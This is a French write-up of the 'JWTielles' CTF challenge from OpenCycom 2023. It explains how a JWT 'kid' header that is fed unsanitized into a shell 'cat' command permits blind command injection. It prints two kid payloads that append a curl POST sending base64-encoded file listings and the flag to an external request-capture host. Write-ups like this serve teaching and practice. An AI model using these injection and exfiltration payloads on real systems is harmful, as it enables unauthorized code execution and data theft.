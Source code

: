 ```yaml
---
title: "JWTielles"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```



# OpenCycom 2023 - JWTielles - *300 pts*

## Enoncé
```mmmmmmmmmmm les bonnes tielles...... 🤤```

*Ce challenge a été résolu par 8,3% des équipes.*

## Solution
Le challenge commence sur un super site de tielles `miam`.

![](/images/004/01.jpg)

On remarque en haut à droite une fonction API qui nous redirige vers un endpoint `GET /api/tielles`, qui nous renvoie une image aléatoire de tielle.

Si l'on observe les requêtes qui passent avec un proxy (type Burp Suite), on peut remarquer que l'API nous attribue un jeton d'authentification lors de la première visite de la page.

![](/images/004/02.png)


Lorsque l'on décode le JWT, on se rend compte qu'il ne contient que très peu d'informations. Le seul header un peu inhabituel est le header "kid", qui contient un GUID qui semble ne pas changer entre plusieurs tokens.

![](/images/004/03.png)

Si l'on ne connaît pas le fonctionnement du paramètre KID dans un JWT, une petite recherche Google nous permet de retrouver la RFC ou d'autres ressources qui nous expliquent que le KID était un paramètre qui sert à indiquer au serveur quelle clé utilisée pour signer le token en question.

Cependant, selon la RFC, il n'y a pas de méthode d'implémentation préconisée. Il est donc possible que le challenge repose sur une mauvaise implémentation de ce paramètre.

![](/images/004/04.png)

Selon la méthode de stockage du KID (en BDD, sur le FS, à l'extérieur...) les attaques possibles sont assez larges.

Ici, le développeur de JWTielles a (malheureusement) choisi de stocker le token sur le filesystem, et de retrouver le contenu du fichier à l'aide d'une commande système `cat`. Cette commande est exécutée forcément *avant* la vérification de la signature, ce qui nous permet de mettre les données de notre choix dans le KID sans problème de vérification.

Nous pouvons exploiter un manque de sanitisation des entrées utilisateurs qui sont passées directement dans la commande système.

Concrètement, le paramètre "kid" est vulnérable à une injection de commande. Pour l'exploiter, il suffit d'utiliser un caractère pour terminer la commande en cours (";","&&", ou "||" par exemple), et d'insérer la commande de notre choix.

Cette exécution de commande se fait à l'aveugle, car une fois la commande exécutée, le résultat est passé comme clé pour la signature du JWT. Nous devons donc trouver un moyen d'exfiltrer le résultat de nos commandes.

On peut passer directement par HTTP, en utilisant des services comme RequestBin ou Beeceptor, qui nous permettent d'obtenir le contenu des requêtes qui leur sont envoyées.

```{"alg": "HS256", "typ": "JWT", "kid": "dummy; curl -X \"POST\" -d $(ls -a|base64 -w 0) https://example.free.beeceptor.com"}```

![](/images/004/05.png)

On reçoit : 

![](/images/004/06.png)

Donc on affiche le flag :

```{"alg": "HS256", "typ": "JWT", "kid": "dummy; curl -X \"POST\" -d $(cat ./flag|base64 -w 0) https://example.free.beeceptor.com"}```

![](/images/004/07.png)


Et voila !

*FLAG : OPC{N3\*\*\*\*\*\*\*\*\*\*\*\*\*\*1D}*
